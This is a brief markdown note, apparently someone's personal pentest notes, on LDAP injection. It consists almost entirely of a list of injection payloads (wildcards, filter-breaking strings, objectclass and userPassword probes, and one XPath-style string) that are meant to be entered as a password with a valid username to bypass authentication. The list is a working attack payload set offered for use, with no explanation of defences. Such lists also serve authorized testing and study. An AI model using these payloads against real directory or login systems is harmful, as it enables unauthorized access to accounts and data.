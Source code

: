 # LDAP Injection

## temp notes

payloads :
use as password with valid user

```
*
*)(&
*))%00
)(cn=))\\x00
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y

```